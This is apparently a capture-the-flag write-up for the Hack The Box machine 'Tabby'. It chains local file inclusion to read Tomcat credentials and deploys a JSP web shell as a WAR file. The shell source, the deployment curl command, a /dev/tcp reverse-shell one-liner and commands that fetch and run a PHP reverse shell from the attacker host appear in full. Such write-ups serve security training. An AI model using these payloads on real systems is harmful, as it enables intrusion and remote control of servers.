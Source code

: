 # 10 - HTTP


# Index page

![](vx_images/3345208239091.png)

A custom made server, doesn't look like a CMS

# Virtual Host

![](vx_images/2090091796614.png)

Add the virtual host to /etc/hosts

# news.php?file=statement


![](vx_images/5657701585706.png)

A parameter named *file* is always interesting. This parameter can lead to Local File Inclusion or perheps Remote File Inclusion.


# Path Traversal Attack
![](vx_images/5731494859861.png)


In general, private key files or database files are the primary targets of LFI but www-data doesn't have the permissions to read the private key of the user ash even if there is any.  In order to gain remote code execution, we need to chain LFI with file upload. We know that on port 8080 there is a tomcat service running. Tomcat stores the password in tomcat-users.xml. 



# Tomcat password
![](vx_images/3909358546503.png)

I was expecting to see the file at *conf/tomcat-users.xml* but apparently it is changed to *etc/tomcat-users.xml*. Finding the file, I think, is the most difficult part of the box.


# manager/html

![](vx_images/4420835022982.png)

Although our user isn't authorized to view the manager page, we can still deploy applications.

# cmdjsp.jsp
```bash
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=GET ACTION='cmdjsp.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>

<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";

   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>
```


Tomcat accepts *war* files, we can create a war file out of cmdjsp.jsp. `"cmd.exe /c"` part is removed from the script. 



# [Deploy war remotely](http://megahosting.htb:8080/docs/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ jar -cvf exploit.war cmdjsp.jsp
┌─[user@parrot]─[10.10.14.14]─[~/htb/tabby]
└──╼ $ curl 'tomcat:$3cureP4s5w0rd123!'@megahosting.htb:8080/manager/text/deploy?path=/refik\&update=true --upload-file exploit.war  -X PUT
OK - Deployed application at context path [/refik]
```



# Remote Code Execution
![](vx_images/1587694837326.png)


Simple reverse shells like `bash -i >& /dev/tcp/xxx/xxx  0>&1` didn't work so I decided to upload `php-reverse-shell.php`


# Reverse Shell

```
cmd=curl 10.10.14.14/rev.php -o /tmp/rev.php
cmd=php /tmp/rev.php
```


# Shell
![](vx_images/5063076717512.png)

